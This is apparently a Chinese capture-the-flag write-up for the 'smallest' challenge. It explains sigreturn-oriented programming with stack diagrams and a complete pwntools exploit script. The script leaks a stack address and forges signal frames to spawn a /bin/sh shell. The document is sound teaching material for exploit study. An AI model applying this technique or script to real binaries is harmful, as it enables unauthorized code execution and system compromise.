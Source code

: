 # 标题

> xman-practice-smallest

## **原理**

SROP
## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**
![](1.png)

由上图可见，rdi，rsi，rdx是存放参数的寄存器，其中rax为0，然后进行 syscall，系统调用号为0的函数为，read。可见这个代码是向栈中写入 0x400个字符。

我们是否可以通过 系统调用 调用 exec或者sys。

```
payload = p64(start_addr) * 3
sh.send(payload)
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))
```


上面脚本的执行过程如下图所示：

- 通过read函数，将输入读到栈中

```
高  |-------------------+
   |                   |
   +-------------------+
   |                   |
   +-------------------+
   |                   |
   +-------------------+
   |     start_addr    |
   +-------------------+
   |     start_addr    |
   +-------------------+
   |     start_addr    | <-----+ rsp
   +-------------------+
   |                   |
低  +-------------------|

```
- 读操作结束后，start_addr 将作为返回地址 从栈中弹出。再进行 读操作。

```
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|    start_addr   |
+-----------------+
|    start_addr   | <----+ RSP
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+

```

- 读取一个字节 将b0 写为b3。 这样 返回地址就改为0x4000b3，同时 也将rax置为1。

```
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|    start_addr   |
+-----------------+
|    4000B3       | <----+ RSP
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+

```
- 因为将rax置为1，同时也没有执行xor操作，所以接下来进行的是写操作（1是write的系统调用号），读入栈中的地址，为接下来 

```
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|    start_addr   | <------+ RSP
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+

```

- 接下来 start_addr 弹出，再执行一次读操作。而这一次我们向栈中写入的 是构造好的 sigframe 。

```
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

```
- 读入之后 程序又从start_addr开始执行。 又进行读操作：

```
## set rax=15 所以输入15个字符 and call sigreturn 
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)
```
- 输入 sigreturn 之后，弹出 syscall_ret，因为此时 rax是15 所以执行的是 sigreturn。将刚才 仿造 的sigframe，填充到寄存器中，然后执行read的操作。

- 再仿造一个 SigreturnFrame 调用，execv("/bin/sh",0,0)。




完整exp：

```
from pwn import *

small = ELF('./smallest')

sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times
payload = p64(start_addr) * 3
sh.send(payload)

## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
## get stack addr
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))

## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

## set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```


## **参考阅读**

[srop原理](http://www.freebuf.com/articles/network/87447.html)